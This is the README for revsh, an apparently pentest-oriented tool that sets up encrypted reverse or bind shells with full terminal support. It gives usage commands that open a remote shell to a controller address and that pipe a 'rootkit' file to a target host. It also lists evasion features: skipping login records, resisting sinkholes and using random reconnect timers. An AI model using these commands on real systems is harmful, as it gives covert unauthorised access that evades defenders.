 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~50k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~/devel/code/revsh$ ./revsh -h
	
	usage:  revsh [-c [-a] [-s SHELL] [-d KEYS_DIR] [-f RC_FILE]] [-t SEC] [-r SEC1[,SEC2]] [-b [-k]] [-n] [-v] [ADDRESS:PORT]
	
		-c            Run in controller mode.                        (Default is target mode.)
		-a            Enable Anonymous Diffie-Hellman mode.          (Default is "!ADH:DHE-RSA-AES256-SHA".)
		-s SHELL      Invoke SHELL as the remote shell.              (Default is "/bin/bash".)
		-d KEYS_DIR   Reference the keys in an alternate directory.  (Default is "~/.revsh/keys/".)
		-f RC_FILE    Reference an alternate rc file.                (Default is "~/.revsh/rc".)
		-t SEC        Set the connection timeout to SEC seconds.     (Default is "3600".)
		-r SEC1,SEC2  Set the retry time to be SEC1 seconds, or      (Default is "600,1200".)
		              to be random in the range from SEC1 to SEC2.
		-b            Start in bind shell mode.                      (Default is reverse shell mode.)
		-k            Start the bind shell in keep-alive mode.       (Ignored in reverse shell mode.)
		-n            Netcat style data broker. No tty.              (Default is interactive w/remote tty.)
		              Non-interactive. Useful for copying files.
		-v            Verbose output.
		-h            Print this help.
		ADDRESS:PORT  The address and port of the listening socket.  (Default is "127.0.0.1:9999".)
		
		Notes:
		  * The -b flag must be invoked on both the control and target hosts to enable bind shell mode.
		  * Bind shell mode can also be enabled by invoking the binary as 'bindsh' instead of 'revsh'.
	    * Verbose output may mix with data if -v is used together with -n.
		
		Interactive example:
		  local controller host:  revsh -c 192.168.0.42:443
		  remote target host:     revsh 192.168.0.42:443
		
		Non-interactive example:
		  local controller host:  cat ~/bin/rootkit | revsh -n -c 192.168.0.42:443
		  remote target host:     revsh 192.168.0.42:443 > ./totally_not_a_rootkit
		

## Example ##

First, setup the local host to be the control host:

	empty@monkey:~$ revsh -c 192.168.0.42:9999

Then connect out from the remote target host:

	target@kitty:~$ ./revsh 192.168.0.42:9999

We will now find a shell waiting for us back at the control host:

	Listening on 192.168.0.42:9999...  Connected!
	 Remote fingerprint expected: 09a348e737b96961d7ff9d55f958e771828f839e
	 Remote fingerprint received: 09a348e737b96961d7ff9d55f958e771828f839e
	Initializing... Done!
	
	################################
	# hostname: kitty
	# ip address: 192.168.0.123
	# real user: target
	# effective user: target
	################################
	target@kitty:/$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 1538 Jul 18 22:50 /etc/passwd
	target@kitty:/$

Note, if you configured the binary at build time to change the IP:PORT address to 192.168.0.42:9999, then the above example becomes even cleaner.

Local control host:

	empty@monkey:~$ revsh -c

Remote target host:

	target@kitty:~$ ./revsh


## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	cd ~/.revsh
	vi rc              # Add your favorite startup commands to really customize the feel of your remote shell.
	./revsh -h

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

